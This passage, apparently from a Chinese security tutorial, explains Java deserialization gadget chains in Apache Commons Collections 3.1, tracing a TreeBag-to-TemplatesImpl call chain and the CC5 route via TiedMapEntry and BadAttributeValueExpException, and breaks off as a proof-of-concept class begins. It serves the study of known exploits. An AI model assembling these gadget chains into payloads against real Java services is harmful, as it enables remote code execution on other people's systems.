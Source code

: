 调用链：
```
TreeBag.readObject()
  AbstractMapBag.doReadObject()
    TreeMap.put()
      TreeMap.compare() === TransformingComparator.compare()
        InvokerTransformer.transform()
          TemplatesImpl.newTransformer()
            TemplatesImpl.getTransletInstance() 
              TemplatesImpl.defineTransletClasses()  // 定义类
            ...  // 创建类实例，触发static代码块
        
```


## CommonsCollections5
CC5 依旧是 LazyMap 加 ChainedTransformer 的触发模式，只不过不再使用 AnnotationInvocationHandler 的动态代理来触发 LazyMap 的 get ，而是找到了其他的方式

因为 jdk 在 1.8 之后对 AnnotationInvocationHandler 类进行了修复，所以在 jdk 1.8 版本就必须找出能替代 AnnotationInvocationHandler 的新的可以利用的类

>测试环境：
JDK 1.7/JDK 1.8
Commons Collections 3.1

### 前置知识
#### TiedMapEntry
`org.apache.commons.collections.keyvalue.TiedMapEntry` 是一个 `Map.Entry` 的实现类，从名称中可以看到，这是一个绑定了底层 map 的 Entry，用来使一个 map entry 对象拥有在底层修改 map 的功能

TiedMapEntry 中有一个成员属性 Map，这就是 `Map.Entry` 的底层 map，TiedMapEntry 的 `getValue()` 方法会调用底层 map 的 get() 方法，我们可以用来触发 LazyMap 的 get
![](https://img-blog.csdnimg.cn/5e09c6363ea94930b3794767e1a07f9c.png)
可以发现 TiedMapEntry 的 equals/hashCode/toString 都可以触发getValue()
![](https://img-blog.csdnimg.cn/ca9fa0bb7b824d59a79af7b7b561d3bf.png)
接下来需要找到一个类在反序列化时会触发 TiedMapEntry 的 `toString()` 方法
#### BadAttributeValueExpException
于是找到了`javax.management.BadAttributeValueExpException`这个类，反序列化读取 val，当 `System.getSecurityManager() == null` 或 valObj 是除了 String 的其他基础类型时会调用 valObj 的 toString() 方法
![](https://img-blog.csdnimg.cn/4c7d692ae9b6400684b4ed7c41c18a20.png)
### 攻击构造
POC：
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class cc5 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
```